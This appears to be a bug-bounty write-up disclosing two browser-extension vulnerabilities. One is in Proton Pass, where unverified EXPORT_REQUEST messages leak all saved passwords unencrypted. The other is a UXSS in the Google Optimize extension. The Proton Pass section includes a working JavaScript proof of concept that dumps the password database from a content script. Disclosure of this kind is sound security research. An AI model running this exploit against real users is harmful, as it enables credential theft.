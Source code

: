 # Leaking passwords from Proton Pass (Awarded $200, Not a google app, but me putting here anyway lol)

**URL:** <https://chrome.google.com/webstore/detail/proton-pass-free-password/ghmbeldphafepmbegfdlkpapadhbakde>

Due to site isolation it should be expected that an attacker controlled process (a content script) should not gain access to a different site's passwords since it would be process isolated.

However Proton Pass does not verify the sender of the `EXPORT_REQUEST` message allowing a renderer bug to leak in unencrypted form all the users passwords.

In the context of the content script on an attacker controlled website do:

```js
// Bypass Self-XSS (For debugging)
f = document.createElement("iframe");
document.body.appendChild(f);
chrome = f.contentWindow.chrome;

// Dump database
chrome.runtime.sendMessage(
  { type: "EXPORT_REQUEST", payload: { encrypted: false } },
  (result) => {
    console.log(atob(result.data));
  },
);
```

While the data in chrome.storage.local is shared to the content script which uses the same process as attacker controlled websites this is in encrypted form so not that useful but this could be improved by using the localStorage API directly in the background process.
Since I think I also saw an access token :/

MV3 Service workers don't allow localStorage but there are other alternatives. <https://developer.chrome.com/docs/extensions/migrating/to-service-workers/#convert-localstorage>

Unverified fixes, <https://github.com/search?q=repo%3AProtonMail%2FWebClients+SECBTY-628&type=commits>

# UXSS by Google Optimize extension (Deprecated, Awarded $500)

**URL:** <https://chrome.google.com/webstore/detail/google-optimize/bhdplaindhdkiflmbfbciehdccfhegci>

The summary of the attack:

1. Google Optimize has a "Global Javascript" feature.
2. An attacker can set up this feature to execute malicious Javascript code on the site of their choosing.
3. Attacker invites the user (with the Google Optimize extension installed) to their account, which causes this code to execute after redirecting to any site.
   The UXSS runs when you click on the blue edit button. see picture below:
   <https://i.imgur.com/bGXJ5VF.png>
   The token for the payload was stored in chrome.storage.local so the user interaction (which got WAI) is not needed if you have a compromised renderer. <https://www.youtube.com/watch?v=h1zTOBpMjmw>
